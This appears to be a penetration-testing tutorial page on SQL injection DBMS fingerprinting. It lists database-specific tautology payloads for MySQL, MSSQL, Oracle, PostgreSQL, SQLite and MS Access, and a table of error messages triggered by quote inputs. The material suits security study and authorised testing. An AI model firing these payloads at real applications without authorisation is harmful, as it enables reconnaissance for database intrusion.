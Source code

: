 If we does not know any thing about the target database and tables, to know the database name and the version will be our first priority.

- ### [SQL Payloads](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/DBMS_Identification.md#sql-payloads-1)
- ### [Error Messages](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/DBMS_Identification.md#error-messages-1)

---

### SQL Payloads
It is a database fingerprinting technique in which we apply different SQL payloads to get any valid responses, so that we can confirm which SQL payload is working and then the database type can be easily known through the tables

- **MySQL-Specific Payloads**

If these payload can trigger any valid responses or SQL errors the DBMS is likely My-SQL based.
  
      conv('a',16,2)=conv('a',16,2)
      connection_id()=connection_id()
      crc32('MySQL')=crc32('MySQL')
  
- **MSSQL Specific Payloads**
  
    	BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)
      @@CONNECTIONS>0
      @@CONNECTIONS=@@CONNECTIONS
      @@CPU_BUSY=@@CPU_BUSY
      USER_ID(1)=USER_ID(1)
  
- **Oracle Specific Payloads**
  
      ROWNUM=ROWNUM
      RAWTOHEX('AB')=RAWTOHEX('AB')
      LNNVL(0=123)
  
- **POSTGRESQL Specific Payloads**

      5::int=5
      5::integer=5
      pg_client_encoding()=pg_client_encoding()
      get_current_ts_config()=get_current_ts_config()
      quote_literal(42.5)=quote_literal(42.5)
      current_database()=current_database()

- **SQLite Specific Payloads**

      sqlite_version()=sqlite_version()
      last_insert_rowid()>1
      last_insert_rowid()=last_insert_rowid()

- **MSACCESS Specific Payloads**

      val(cvar(1))=1
      IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0

### Error Messages
If we can trigger any SQL error message, it also tells about the database type.

| **DBMS** | **Example Error Message** | **Example Payload** |
| --- | --- | --- |
| MySQL | `You have an error in your SQL syntax; ... near '' at line 1` | `'` |
| PostgreSQL | `ERROR: unterminated quoted string at or near "'"` | `'` |
| PostgreSQL | `ERROR: syntax error at or near "1"` | `1'` |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.` | `'` |
| Microsoft SQL Server | `Incorrect syntax near ''.` | `'` |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'` |
| Oracle | `ORA-00933: SQL command not properly ended` | `'` |
| Oracle | `ORA-01756: quoted string not properly terminated` | `'` |
| Oracle | `ORA-00923: FROM keyword not found where expected` | `1'` |






































    

